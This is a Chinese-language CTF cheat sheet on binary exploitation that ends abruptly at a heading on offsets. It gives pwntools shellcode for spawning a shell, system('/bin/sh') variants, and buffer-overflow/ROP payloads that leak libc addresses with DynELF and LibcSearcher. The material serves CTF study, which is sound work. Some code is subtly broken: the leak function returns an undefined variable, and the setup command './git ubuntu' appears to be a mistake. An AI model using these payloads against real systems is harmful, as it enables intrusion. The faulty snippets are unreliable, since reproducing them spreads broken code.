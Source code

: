# PWN题技巧总结

## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())
```

```
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
```

### 执行system函数

1. system("/bin/sh")
2. system("sh")
3. system("$0")

## 0x002-敏感函数

### printf

### scanf

### puts

### gets

### read

### write

### strcpy

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

在使用LibcSearcher时，如果出现这种状况：

![](1.png)

则需要重新下载libc库。

安装步骤如下：

1. 进入LibcSearcher的安装目录中，执行命令删除libc-database目录
   ```
   rm -rf libc-database
   ```
2. 重新下载libc-database文件夹
   ```
   git clone https://github.com/niklasb/libc-database 
   或
   git clone git://github.com/niklasb/libc-database
   ```
3. 进入libc-database目录中，执行命令
   ```
   ./git ubuntu
   ```
4. 等待安装完成即可

## 0x004-偏移